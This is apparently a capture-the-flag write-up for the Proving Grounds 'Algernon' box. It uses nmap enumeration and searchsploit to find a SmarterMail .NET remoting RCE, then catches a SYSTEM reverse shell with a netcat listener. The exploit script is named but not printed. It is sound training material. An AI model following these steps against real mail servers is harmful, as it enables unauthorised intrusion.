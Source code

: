 ```yaml
---
layout: post
title: Proving Grounds - Algernon
date: 2020-10-07 12:16:22 +0100
description: Algernon is an easy Windows box featuring an outdated installation of a mail server. It features an array of open ports though one .NET remoting endpoint is vulnerable to a deserialisation attack.
img: os.jpeg
fig-caption: Algernon
categories: ProvingGrounds
tags: [Easy, Windows, Practice, CVE]
---
```

## Overview
Algernon is an easy Windows box featuring an outdated installation of a mail server. It features an array of open ports though one .NET remoting endpoint is vulnerable to a deserialisation attack.

## Enumeration
The initial scan reveals a fair number of open ports
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Algernon]
└─$ sudo nmap -p- -T4 192.168.200.65
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-01 17:54 BST
Nmap scan report for 192.168.200.65
Host is up (0.092s latency).
Not shown: 65528 filtered ports
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
9998/tcp  open  distinct32
17001/tcp open  unknown
```
After some initial enumeration a SmarterMail mail server is found on port 9998. Searching exploitdb reveals a number of vulnerabilities. With the "Remote Code Execution" vulnerability being of particular interest.
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Algernon]
└─$ searchsploit smartermail
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
SmarterMail 16 - Arbitrary File Upload                                                                                     | multiple/webapps/48580.py
SmarterMail 7.1.3876 - Directory Traversal                                                                                 | windows/remote/15048.txt
SmarterMail 7.3/7.4 - Multiple Vulnerabilities                                                                             | asp/webapps/16955.txt
SmarterMail 8.0 - Multiple Cross-Site Scripting Vulnerabilities                                                            | asp/webapps/16975.txt
SmarterMail < 7.2.3925 - LDAP Injection                                                                                    | asp/webapps/15189.txt
SmarterMail < 7.2.3925 - Persistent Cross-Site Scripting                                                                   | asp/webapps/15185.txt
SmarterMail Build 6985 - Remote Code Execution                                                                             | windows/remote/49216.py
SmarterMail Enterprise and Standard 11.x - Persistent Cross-Site Scripting                                                 | asp/webapps/31017.php
smartermail free 9.2 - Persistent Cross-Site Scripting                                                                     | windows/webapps/20362.py
SmarterTools SmarterMail 4.3 - 'Subject' HTML Injection                                                                    | php/webapps/31240.txt
SmarterTools SmarterMail 5.0 - HTTP Request Handling Denial of Service                                                     | windows/dos/31607.py
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
In the vulnerability we find that it relies on a .NET remote endpoint being available, thankfully this endpoint does seem to be exposed.
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Algernon]
└─$ sudo nmap -p17001 -sV 192.168.200.65                        
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-01 19:20 BST
Nmap scan report for 192.168.200.65
Host is up (0.093s latency).

PORT      STATE SERVICE  VERSION
17001/tcp open  remoting MS .NET Remoting services
```
## Foothold
Having identified the vulnerability during enumeration, getting a shell is as simple as updating the LHOST nad LPORT in the script. Though we must make sure to use a port that is not blocked by the firewall, which in this case port 80 proved to work.
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Algernon]
└─$ nc -nlvp 80                                                                                                                                         
listening on [any] 80 ...
connect to [192.168.49.200] from (UNKNOWN) [192.168.200.65] 49892

PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32>
```
## Privilege Escalation

Privilege escalation is not required as we got a system shell directly from the foothold